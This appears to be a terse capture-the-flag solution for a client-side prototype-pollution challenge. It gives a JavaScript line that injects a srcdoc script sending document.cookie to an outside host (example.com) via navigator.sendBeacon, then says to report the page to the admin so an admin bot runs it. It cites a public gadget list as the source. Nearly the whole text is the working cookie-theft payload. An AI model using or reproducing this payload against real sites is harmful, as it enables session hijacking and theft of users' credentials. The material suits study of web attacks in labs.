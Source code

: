 1. execute `serialize = () => 'a.constructor.prototype.srcdoc=<script>navigator.sendBeacon("https://example.com",document.cookie)</script>'`
2. report to the admin

ref. https://github.com/BlackFan/client-side-prototype-pollution/blob/bba2290ed3014acc4d678e437080fa049bcc5e30/README.md#:~:text=Sergey%20Bobrov-,Google%20reCAPTCHA,-%3F__proto__%5Bsrcdoc%5D%5B%5D%3D%3Cscript